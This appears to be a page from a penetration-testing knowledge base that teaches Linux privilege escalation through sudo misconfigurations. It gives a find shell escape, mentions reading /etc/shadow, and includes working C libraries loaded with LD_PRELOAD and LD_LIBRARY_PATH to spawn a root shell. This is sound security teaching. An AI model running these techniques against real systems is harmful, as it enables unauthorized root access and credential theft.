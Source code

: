 ```yaml
---
description: >-
  Commands you are allowed to run as root, which may allow you to escape from
  the command into a root shell
---
```


# Sudo

## Finding sudo commands

Simply using this command you get a list of commands you can execute as other users.&#x20;

```bash
sudo -l
```

If you get any error message like these, it means you probably cannot use this technique for this user:

> Sorry, user \<username> may not run sudo on \<machine>.

> \<username> is not in the sudoers file. This incident will be reported.

In the best-case scenario, you can run any command (even `sudo /bin/bash`) as root (without a password):

```bash
Matching Defaults entries for <username> on <machine>:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
User <username> may run the following commands on <machine>:
    (ALL) NOPASSWD: ALL
```

Another example is if you can only execute a certain program or the `NOPASSWD` tag is not set meaning you do need the user's password.&#x20;

```bash
Matching Defaults entries for <username> on <machine>:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User <username> may run the following commands on <machine>:
    (ALL : ALL) /usr/bin/find
```

## Exploiting a sudo program

Now that we have a list of programs we are allowed to use, we can see if we can get a shell in any way. To do this you look up the program on [GTFOBins](https://gtfobins.github.io/#+sudo). If it has the `Sudo` tag set, it means you can use it to get some elevated privilege.&#x20;

{% embed url="https://gtfobins.github.io/#+sudo" %}
GTFOBins, a searchable list of exploitable binaries
{% endembed %}

Then just use the command to get a shell. With the `/usr/bin/find` binary it would be this for example:

```bash
sudo find . -exec /bin/sh \; -quit
```

If the binary does not allow you to get a shell instantly, you can try other things like file reading to read the `/etc/shadow` file containing password hashes. More information about cracking these shadow hashes in [#cracking-shadow-hashes](../../cryptography/hashing/cracking-hashes.md#cracking-shadow-hashes "mention").&#x20;

### env\_keep

Sometimes the program itself is not exploitable, but there may be a `env_keep` option. This option allows you to inherit environment variables while executing the program, letting it do different things than normal. Two dangerous environment variables here are `LD_PRELOAD` and `LD_LIBRARY_PATH`, because they allow you to overwrite the libc path of the program to another file that you can control. This means you can execute any C library you make before the real sudo program runs.&#x20;

```shell-session
$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/apache2
```

The first `LD_PRELOAD` just specifies the direct path to the library. To compile a malicious library yourself just make some C code to execute a privileged shell, and compile it like a library:

{% code title="preload.c" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);  // Root permissions
        system("/bin/bash -p");  // Start bash shell
}
```
{% endcode %}

```shell-session
$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Now you have the malicious preload.so file that you can include by setting the `LD_PRELOAD` before running the allowed sudo program (make sure to use the full path):

```shell-session
$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```

Then for the `LD_LIBRARY_PATH` option there is another similar way. This variable only sets the directory to find the other libraries in, so we first need to know what libraries are loaded to then overwrite them. Do this using `ldd`:

```shell-session
$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff8f5ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f52d4527000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f52d4303000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f52d40c9000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f52d3ead000)
        libc.so.6 => /lib/libc.so.6 (0x00007f52d3b41000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f52d393c000)
        librt.so.1 => /lib/librt.so.1 (0x00007f52d3734000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f52d34fd000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f52d32f8000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f52d30d0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f52d49e4000)
```

We can choose any of these filenames to overwrite. Let's take `libcrypt.so.1` for example. We'll again compile some C code to a valid library with the functions that it will expect:

{% code title="library_path.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));  // Function that is called

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);  // Root permissions
        system("/bin/bash -p");  // // Start bash shell
}
```
{% endcode %}

Then we compile it again to a library and set the `LD_LIBRARY_PATH` to a directory containing our malicious library:

```shell-session
$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```
